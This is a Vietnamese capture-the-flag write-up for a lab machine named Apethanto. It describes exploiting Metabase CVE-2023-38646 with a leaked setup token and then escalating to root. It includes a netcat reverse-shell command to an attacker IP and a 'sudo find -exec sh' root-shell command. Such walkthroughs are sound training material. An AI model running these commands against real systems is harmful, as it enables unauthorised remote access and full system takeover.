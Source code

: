 # [__Apethanto__](#apethanto)

## Exploit public interface, get User shell

Bài này thì sau khi vào web **apethanto.htb** và đi loanh quanh sẽ vào được 1 trang có trỏ đến địa chỉ subdomain **metabase.apethanto.htb**.

Search 1 lúc trên google và [exploitdb](https://www.exploit-db.com) thì tìm được **[CVE-2023-38646](https://github.com/shamo0/CVE-2023-38646-PoC/tree/main)** liên quan đến phiên bản Metabase mà nó đang host. 

Sử dụng theo hướng dẫn PoC ở trên, ta check địa chỉ 

```
/api/session/properties
``` 

và lấy được 

```
"setup-token":"819139a8-1ce9-46f0-acf8-9b4fc0d1164b"
```

Sau một hồi sử dụng các poc mà không được, cuối cùng cũng dùng được PoC của idol [Testanull](https://gist.github.com/testanull/a7beb2777bbf550f3cf533d2794477fe)

```vim
python3 pwn.py -u http://metabase.apethanto.htb -t 819139a8-1ce9-46f0-acf8-9b4fc0d1164b -c "nc 10.10.14.99 666 -e /bin/bash"
```

File khai thác [pwn.py](./Apethanto/pwn.py). *-c* là để nhét command gọi revershell về máy chúng ta.

Và sau khi lên được shell, ta sẽ đọc được file chứa flag và có được tầng user đầu tiên.

## Privilege Escalation, get Root shell

Thông thường, sau khi leo được user shell xong, ta sẽ bỏ tool vào để Discovery máy, tương tự với bước [Discovery](https://attack.mitre.org/tactics/TA0007/) của ATT&CK.

Ở đây, mình dùng tool [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) để liệt kê các thông tin có sẵn trong máy, tìm được khai thác.

Có hàng hà sa số các *cửu âm chân kinh* đã liệt kê cách thức leo quyền trong Linux rồi, có thể tham khảo tại:

```
https://gtfobins.github.io/
https://payatu.com/guide-linux-privilege-escalation
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
https://academy.hackthebox.com/course/preview/linux-privilege-escalation/introduction-to-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://oscp.infosecsanyam.in/priv-escalation
https://gtfobins.github.io/#+suid
https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-0-using-sudo-rights-3Q75w8x2KWb
```

Thường cách khai thác dễ nhất là thông qua **misconfigured SUDO rights**, ở đây may mắn là có.

Sử dụng lệnh sau để tìm các file có quyền **[SUID](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd)** (Set-user Identification), ta thấy có **sudo**,

```vim
find / -perm -u=s -type f 2>/dev/null
```

![suid](./img/suid.png)

Sử dụng **sudo** và **find**, ta có thể gọi shell với quyền **ROOT** luôn.

```shell
sudo find /home -exec sh -i \;
```

Giải thích thêm về lệnh trên: 
>
> * **sudo** : cho phép bất cứ user nào sử dụng nó được sử dụng dưới quyền của owner (owner của sudo hiện tại là user **ROOT**)
>
> * **find** : vì nó được gọi bằng process có quyền **root** nên nó có thể được sử dụng bằng quyền **root** luôn.
>
> 	+ Lệnh *find* có 1 parameter là **-exec**, lệnh này cho phép *find* sau khi tìm được file theo yêu cầu có thể thực thi process bất kì nào đó (grep, cut, awk, ...)
>	+ Lợi dụng điều này, ta có thể execute một lệnh để tạo 1 con shell
> 
> * **sh** đây là shell mà ta lợi dụng *find* để tạo (tất nhiên là được kế thừa luôn quyền **root**), *-i* là interactive mode
>

Sau khi có root shell rồi thì đi tìm flag thôi.

![flag](./img/flag.png)